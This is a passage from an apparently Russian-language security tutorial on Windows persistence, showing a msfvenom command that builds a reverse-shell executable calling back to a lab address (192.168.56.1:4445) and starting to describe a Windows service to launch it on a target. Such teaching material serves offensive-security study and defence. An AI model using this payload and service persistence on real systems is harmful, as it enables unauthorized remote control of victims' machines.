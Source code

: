 ### практический пример

Рассмотрим практический пример: как создать и запустить службу Windows, которая создаст обратный shell.

Сначала создадим исполняемый файл обратного shell через `msfvenom` на машине атакующего:    


```bash
msfvenom -p windows/x64/shell_reverse_tcp \
LHOST=192.168.56.1 LPORT=4445 -f exe > meow.exe
```

![pers](./images/54/2022-05-09_16-53.png){width="80%"}    

![pers](./images/54/2022-05-10_17-17.png){width="80%"}    

Затем создадим службу, которая будет запускать `meow.exe` на целевой машине.

Минимальные требования для службы:
- Точка входа в основную программу (как в любом приложении)    
- Точка входа в службу    
- Обработчик управления службой    
